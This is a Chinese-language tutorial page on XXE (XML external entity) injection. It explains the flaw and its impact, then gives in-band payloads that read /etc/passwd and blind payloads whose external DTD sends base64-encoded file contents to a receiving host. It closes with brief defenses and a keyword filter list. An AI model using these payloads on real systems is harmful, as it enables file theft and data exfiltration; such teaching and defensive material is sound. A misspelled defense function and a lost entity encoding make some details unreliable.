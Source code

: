 ## XXE漏洞原理
XXE漏洞也叫XML外部实体注入。由于没有禁止外部实体的加载,攻击者可以加载恶意外部文件，而应用程序解析输入的XML数据时,解析了攻击者伪造的外部实体导致产生XML漏洞。

## XXE漏洞的危害
（1）读取任意文件</br>
（2）执行系统命令</br>
（3）内网端口扫描</br>
（4）攻击内网其他网站

## XXE漏洞的利用
一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到payload的执行结果或现象，无回显的情况又称为blind xxe，可以使用外带数据通道提取数据。
### （一）有回显的情况
**（1）直接通过DTD外部实体声明**
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<abc>&test;</abc>
```
**（2）通过DTD文档引入外部DTD文档，再引入外部实体声明**
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://localhost/evil.dtd">
<abc>&b;</abc>
evil.dtd内容：
<!ENTITY b SYSTEM "file:///etc/passwd">
```
**（3）通过DTD外部实体声明引入外部实体声明**
XML内容如下:
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % d SYSTEM "http://localhost/evil.dtd">
%d;
]>
<abc>&b;</abc>
```
evil.dtd内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

### （二）无回显情况，又称blind xxe，使用外带数据通道提取数据
**（1）第一种无回显示payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd; %all;
]>
<abc>&send;</abc>
```
其中evil.xml文件内容为
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost%file;'>">
```
调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用实体send。

**（2）第二种无回显payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd;
%send;
]>
<abc></abc>
```
其中evil.xml文件内容为：
```
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://localhost/?content=%file;'>"> %payload;
```
调用过程和第一种方法类似，但最里层的嵌套里%要进行实体编码成%。无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。</br>
这里注意参数实体引用%file;必须放在外部文件里，因为根据这条规则 。在内部DTD里，参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则解析器会报错： PEReferences forbidden in internal subset。这里的internal subset指的是中括号[]内部的一系列元素声明，PEReferences 指的应该是参数实体引用 Parameter-Entity Reference 。
一般都使用第二种方法，因为当文件中含有中文字符或<字符，会导致不能解析。

## XXE漏洞的防御
（1）禁用外部实体，例如ibxml_disable_entity_loader(true)；</br>
（2）过滤和验证用户提交的xml数据，防止出现非法内容；过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC等。
